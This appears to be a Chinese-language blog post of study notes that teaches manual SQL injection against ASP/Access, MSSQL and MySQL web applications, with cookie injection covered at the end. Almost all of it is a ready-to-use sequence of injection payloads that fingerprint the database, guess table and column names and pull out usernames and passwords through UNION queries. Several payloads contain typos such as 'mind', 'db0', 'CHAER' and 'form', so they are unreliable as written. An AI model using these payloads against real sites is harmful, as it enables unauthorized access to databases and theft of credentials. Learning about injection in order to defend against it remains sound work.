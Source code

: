 title: review of Network attack and defense
comments: true
date: 2016-09-19 01:02:38
categories: Discovery
---
SQL注入即是指攻击者通过在应用程序中预先定义好的查询语句结尾加上额外的SQL语句元素，欺骗数据库服务器执行非授权的任意查询。

## SQL注入基础
### 1.试探 1=1，1=2
1. http://example.asp?id=49
2. http://example.asp?id=49 `and 1=1`
3. http://example.asp?id=49 `and 1=2`

可以注入的表现：
1. 正常显示
2. 正常显示
3. 提示BOF或EOF

不可注入的表现：
1. 正常显示
2. 程序定义的错误提示或提示类型转换时出错。
3. 同上

### 2.判断数据库类型
#### 加单引号
1. 错误提示含有JET（JET是ACCESS数据库的数据库引擎）
2. 错误提示中含有OLEDB（OLEDB是SQL SERVER使用的数据库引擎）

#### and user > 0
SQL SERVER出错：将nvarchar值“abc”转换数据类型为int的列时发生语法错误；“abc”正是变量user的值。SQL SERVER中有一个内置变量user，变量类型为nvarchar。

ACCESS的系统表[msysobjects]在web环境下读该表会提示“没有权限”；SQL SERVER的系统表[sysobjects]在web环境下不可正常读取。

#### `and (select count (*) from sysobjects) > 0`
SQL SERVER显示正常。ACCESS显示出错。

#### `and (select count (*) from msysobjects) > 0`
SQL SERVER显示正常。ACCESS显示没有权限。

### 3.猜表名
`and (select count (*) from admin) >= 0`
返回正常说明admin存在

### 4.猜字段
`and (select count (content) from admin) >= 0`
返回正常说明content字段存在

常用的猜字段函数
ACCESS: asc(字符)	返回字符的ascii
MSSQL: unicode(字符)	同上
ACCESS: char(数字)	返回ascii的字符
MSSQL: nchar()同上
ACCESS: mid(字符串,N,L)	返回字符串从N个字符起，长度为L的子字符串
MSSQL: substring(字符串,N,L)	同上
ACCESS,MSSQL: abc(数字)	返回数字的绝对值（猜汉字使用）
ACCESS,MSSQL: A between B and C	判断A是否在B和C之间

例`and (select asc(mind(password,1,1))from admin) > 100`
查询admin中password字段第1个字符串的ascii是否大于100

例`select * from article where articleid = '' union select * from user where userid = 1  `
第一个select执行后返回结果`title` `content`
`select * from article where articleid = ''`
第二个select执行后返回结果`username` `password`
`select * from user where userid = 1`
整个select执行后返回结果`username` `password`
如果前面查询为真，则同时返回两次查询的内容

1. 判断字段个数`order by`
2. 查表名`and (select count (*) from admin) >= 0`
3. 猜测admin表的字段个数（假如有三个字段id,user,password）`union select 1,2,3,4,5,6,7,8,9,10,* from admin`返回错误，`union select 1,2,3,* from admin`返回正常

inner join on: 指定返回两个表中匹配的行
`select * from admin as a inner join admin as b on a.id = b.id`返回一个表中的两个内容

上方`3`中没法显示admin中所有的字段信息，扩大显示范围，构造如下语句`and 1=2 union select 1,2,3,* from admin as a inner join admin as b on a.id = b.id`

`select * from admin inner join admin1 on admin.id = admin1.id`返回两个表内容

## MSSQL
1. 判断字段个数`order by 13`
2. 判断字段回显位`and 1=2 union all select 1,2,null,4,5,6,7,8,9,10,11,null,13`
3. 数据库版本`and 1=2 union select 1,@@version,null,4,5,6,7,8,9,10,11,null,13`
4. 当前数据库名`and 1=2 union all select 1,db_name(),null,4,5,6,7,8,9,10,11,null,13`
5. 所有数据库名（通过更改dbid，7以上的是用户数据库）`and 1=2 union all select 1,name,null,4,5,6,7,8,9,10,11,null,13 from master.db0.sysdatabases where dbid = 7 --`
6. 表名（更改top后的数字来查询）`and 1=2 union all select 1,name,null,4,5,6,7,8,9,10,11,null,13 from data.db0.sysobjects where xtype = CHAER(85) and name not in (select top 1 name from data.db0.sysobjects where xtype = CHAR(85))--`
7. 字段对应id`and 1=2 union all select 1,id,null,4,5,6,7,8,9,10,11,null,13 from data.db0.sysobjects where xtype = CHAR(85) and name not in (select top 7 name from data.bd0.sysobjects where xtype = CHAR(85))--`
8. 根据id查字段名`and 1=2 union all select 1,id,null,4,5,6,7,8,9,10,11,null,13 from data.db0.syscolumns where ID = 12345 and name not in (select top 1 name from data.db0.syscolumns where ID = 12345)--`

## ASSESS
1. 试探`1=1` `1=2`
2. 环境监测`and ord(mid(version(),1,1))>51`正常则为mysql4以上版本，可以union查询`union select 1,version(),3`
3. 确定字段数`order by 13`
4. 判断精确字段`and 1=2 union select 1,2,3,4`正常返回在页面中
5. 爆数据库名`and 1=2 union select 1,user(),3,database()`正常返回在页面中
6. 爆表`and 1=2 union select 1,TABLE_NAME,3,4 from information_schema.tables where TABLE_SCHEMA = 'blah'`结果返回在2字段
7. 爆字段`and 1=2 union select 1,COLUMN_NAME,3,4 from informations_chema.COLUMN where TABLE_NAME='users'` `and 1=2 union select char(mid(COLUMN-NAME)),2,3,4 from information_schema.COLUMN where TABLE_NAME='users'`
8. 爆数据`and 1=2 union select 1,user,3,password form phptest.users`

## cookie注入
1. 在原地址加单引号
2. 去掉id值，页面出错，构造cookie语句：`javascript:alert(document.cookie="id="+escape("30 and 1=1"))`会弹窗
3. 关闭弹窗，去掉id访问，页面正常
4. 猜测字段`javascript:alert(document.cookie="id="+escape("30 order by 5"))`点击确认，去掉id访问，页面正常则正常
5. 判断回显位`javascript:alert(document.cookie="id="+escape("30 union select 1,2,3,4 from admin"))`点击确认，去掉id访问，页面正常则正常
6. 猜解user password字段`javascript:alert(document.cookie="id="+escape("30 union select 1,user,3,4 from admin"))`
